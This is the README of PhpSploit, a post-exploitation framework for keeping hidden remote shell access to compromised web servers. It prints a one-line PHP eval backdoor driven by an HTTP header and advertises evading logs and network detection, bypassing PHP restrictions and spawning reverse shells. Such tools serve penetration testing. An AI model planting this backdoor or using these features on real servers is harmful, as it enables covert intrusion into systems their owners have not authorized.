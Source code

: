 ### PhpSploit: _Furtive post-exploitation framework_

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

[![travis build](https://travis-ci.org/nil0x42/phpsploit.svg?branch=master)](https://travis-ci.org/nil0x42/phpsploit)
[![codacy code quality](https://api.codacy.com/project/badge/Grade/b998fe23c25f40a78c6c35c722bb9fa0)](https://app.codacy.com/app/nil0x42/phpsploit?utm_source=github.com&utm_medium=referral&utm_content=nil0x42/phpsploit&utm_campaign=Badge_Grade_Dashboard)
[![lgtm alerts](https://img.shields.io/lgtm/alerts/g/nil0x42/phpsploit.svg?logo=lgtm&logoWidth=18)](https://lgtm.com/projects/g/nil0x42/phpsploit/alerts/)
[![codecov](https://codecov.io/gh/nil0x42/phpsploit/branch/master/graph/badge.svg)](https://codecov.io/gh/nil0x42/phpsploit)
[![license](https://img.shields.io/github/license/nil0x42/phpsploit.svg)](https://github.com/nil0x42/phpsploit/blob/master/LICENSE)
[![requirements](https://requires.io/github/nil0x42/phpsploit/requirements.svg?branch=master)](https://requires.io/github/nil0x42/phpsploit/requirements/?branch=master)
[![pyup.io requirements](https://pyup.io/repos/github/nil0x42/phpsploit/python-3-shield.svg)](https://pyup.io/repos/github/nil0x42/phpsploit/)


![phpsploit demo](data/img/phpsploit-demo.png)

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate post-exploitation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any command or option (type `help`)
    -   _Cross-platform_ on both the client and the server.
    -   Powerful interface with completion and multi-command support
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD Like
-   Mac OS X
-   Windows NT
